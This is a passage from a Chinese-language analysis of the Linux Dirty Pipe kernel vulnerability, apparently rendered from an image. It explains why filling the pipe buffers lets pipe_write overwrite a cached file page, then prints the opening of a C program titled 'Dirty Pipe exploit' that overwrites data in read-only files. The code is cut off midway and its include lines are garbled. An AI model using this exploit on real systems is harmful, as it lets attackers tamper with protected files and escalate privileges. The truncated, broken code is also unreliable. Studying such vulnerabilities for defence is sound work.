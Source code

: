 pipe_write 的写入逻辑:

```
head = pipe->head;
if (chars && !was_empty) { // 若管道非空且写入部分页
    buf = &pipe->bufs[(head - 1) & mask]; // 获取前一个缓冲区
    // 可能覆盖前一个页的数据，但需与copy_page_to_iter_pipe的buf对齐
}
```

那么接着前面的 head 是 16,buf 获取到的序号就是`&pipe->bufs[15]`, 和存放文件 page 的 buf 指向不同, 所以无法覆盖!

但是如果我们将管道填满 16 次的话:  
![](https://cdn.nlark.com/yuque/0/2025/png/27597334/1744430880237-0e5d202f-65c5-4eeb-a6d9-1097a3cf6cda.png)  
漏洞利用成功的时候发现, 在 copy_page_to_iter_pipe 的时候发现这个 head 值变为了 17!  
通过计算可以发现 copy_page_to_iter_pipe 时候的 buf 和 pipe_write 的 buf 是同一个:`pipe->buf[0]`, 所以可以对文件进行覆写!

使用 splice 进行零拷贝之后是否可以通过管道将文件内容输出出来
----------------------------------

```
#define _GNU_SOURCE
#include #include #include #include #include #include #ifndef PAGE_SIZE
#define PAGE_SIZE 4096
#endif
 
static void prepare_pipe(int p[2])
{
    if (pipe(p)) {
        abort();
    }
 
    const unsigned pipe_size = fcntl(p[1], F_GETPIPE_SZ);
    static char buffer[4096];
 
    for (unsigned r = (pipe_size); r > 0;) {
        unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
        r -= write(p[1], buffer, n);
    }
 
    for (unsigned r = (pipe_size); r > 0;) {
        unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
        r -= read(p[0], buffer, n);
    }
}
 
int main(int argc, char **argv)
{
    if (argc != 4) return EXIT_FAILURE;
    puts("Dirty Pipe exploit");
    const char *path = argv[1];
    loff_t offset = strtoul(argv[2], NULL, 0);
    const char *data = argv[3];
    size_t data_size = strlen(data);
 
 
    int fd = open(path, O_RDONLY);
    if (fd < 0) return EXIT_FAILURE;
 
    struct stat st;
    if (fstat(fd, &st) || offset > st.st_size ||
       (offset + data_size) > st.st_size) {
        return EXIT_FAILURE;
    }
 
    int p[2];
```